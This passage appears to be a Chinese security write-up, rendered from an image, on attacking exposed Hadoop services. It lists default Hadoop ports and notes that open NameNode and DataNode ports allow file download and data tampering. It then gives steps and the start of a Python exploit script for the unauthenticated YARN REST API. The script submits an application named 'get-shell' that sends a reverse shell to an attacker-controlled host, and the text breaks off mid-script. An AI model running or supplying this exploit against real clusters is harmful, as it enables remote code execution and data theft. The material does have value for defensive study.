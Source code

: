 
|  | 节点 | 默认端口 |
| :--- | :--- | :--- |
| HDFS | NameNode | 50070 |
| HDFS | SecondNameNode | 50090 |
| HDFS | DataNode | 50075 |
| HDFS | Backup/Checkpoint node | 50105 |
| MapReduce | JobTracker | 50030 |
| MapReduce | TaskTracker | 50060 |

通过访问 NameNode WebUI 管理界面的 50070 端口，可以下载任意文件。而且，如果 DataNode 的默认端口 50075 开放，攻击者可以通过 HDSF 提供的 restful API 对 HDFS 存储的数据进行操作。

![](/assets/wsq6.png)

## 2. 攻击手法

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 [REST API](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef) 也可以提交任务执行。

利用过程如下：

* 在本地监听等待反弹 shell 连接
* 调用 New Application API 创建 Application
* 调用 Submit Application API 提交

P牛的攻击脚本

```
#!/usr/bin/env python

import requests

target = 'http://127.0.0.1:8088/'
lhost = '192.168.0.1' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
```